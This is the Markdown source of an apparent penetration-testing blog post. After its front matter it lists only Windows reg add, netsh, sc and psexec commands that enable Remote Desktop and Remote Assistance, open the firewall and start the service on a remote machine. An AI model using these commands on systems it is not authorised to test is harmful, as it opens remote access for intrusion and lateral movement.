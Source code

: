 ```yaml
---
layout: single
classes: wide
author_profile: true
read_time: true
share: true
related: true
title:  "Internal Infrastructure Pentest - Enable RDP and Remote Assistance on A Remote Machine"
date:   2019-06-23 13:49:40 +1000
categories:
  - Internal Pentest
  - Internal Infrastructure Pentest
  - Network Pentest
tags:
  - RDP
  - Remote Desktop
  - Registry Key Hacking
  - Windows Security
  - Active Directory Hacking
---
```

<pre>
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "AllowTSConnections" /t REG_DWORD /d 0x1 /f
reg add "hklm\system\currentControlSet\Control\Terminal Server" /v "fDenyTSConnections" /t REG_DWORD /d 0x0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fAllowToGetHelp /t REG_DWORD /d 1 /f
netsh advfirewall set rule group="remote administration" new enable="yes"
netsh advfirewall firewall set rule group="remote administration" new enable=yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=domain
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes profile=private
netsh firewall add portopening TCP 3389 "Remote Desktop"
netsh firewall set service RemoteDesktop enable
netsh firewall set service RemoteDesktop enable profile=ALL
netsh firewall set service RemoteAdmin enable
sc config TermService start= auto
net start Termservice
</pre>

<pre>
- psexec \\hostname reg add "hklm\system\currentcontrolset\control\terminal server" /f /v fDenyTSConnections /t REG_DWORD /d 0
- psexec \\hostname netsh firewall set service remoteadmin enable
</pre>
